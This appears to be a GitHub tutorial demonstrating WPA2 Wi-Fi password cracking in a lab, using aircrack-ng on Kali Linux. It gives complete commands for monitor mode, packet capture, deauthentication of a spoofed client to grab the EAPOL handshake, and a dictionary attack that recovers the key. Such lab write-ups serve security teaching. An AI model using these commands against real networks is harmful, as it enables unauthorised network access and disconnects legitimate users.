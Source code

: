 # WIFI Cracking

## Requirements
* [aircrack-ng](https://www.kali.org/tools/aircrack-ng/) - `Already installed in Kali distro`

## Demo setup

For the following demo I'm using a Lab setup to simulate a `real world` use case:
* Access point (AP)
    * Android device #1 with AP mode enabled with WPA2
* WIFI Client
    * Android device #2
* Attacker
    * Kali Linux VM with an external USB network adapter [TL-WN722N](https://www.amazon.es/TP-LINK-TL-WN722NV2-Adaptador-inal%C3%A1mbrico-10-6-10-11/dp/B002SZEOLG)

![](./img/demo_setup_wifi.png)

## Attack!

1. Setup the network adapter in monitor mode or promiscous

```bash
sudo airmon-ng check kill
sudo airmon-ng start wlan0 
```

2. Do a quick scan to get information about AP's nearby

```bash
sudo airodump-ng wlan0mon
```
![](./img/scan.png) 


3. Start a sniffing session capturing all packets directed to our target.

```bash
sudo airodump-ng -w demo -c 11 --bssid E6:10:XX:XX:XX:XX wlan0mon
```

![](./img/capture_wpa.png)

> Keep the session open. Next we will force a reconnection to gather a EAPOL handshake


4. Send a deauthentication packet to our target, spoofing a client already connected to the AP. This action will force a reconnection, sending a 4-Way Handshake (EAPOL) which we will use to crack the AP PSK

```bash
sudo aireplay-ng --deauth 2 -a E6:10:XX:XX:XX:XX -c 92:8C:XX:XX:XX:XX wlan0mon
```

![](./img/handshake.png)

> Notice the client is being disconnected from the network. After an automatic reconnection, we captured the EAPOL handshake!


5. Just to make sure, let's check the pcap file with wireshark to search for handshakes

```bash
wireshark demo-03.cap & 
```

![](./img/wireshark.png)

6. Now, we will perform a brute-force attack over the handshake captured using an existing dictionary

```bash
aircrack-ng demo-03.cap -w /usr/share/seclists/Passwords/WiFi-WPA/probable-v2-wpa-top4800.txt
```

![](./img/aircrack.png)

Done! You cracked the password `slipknot` a super secure one ;)





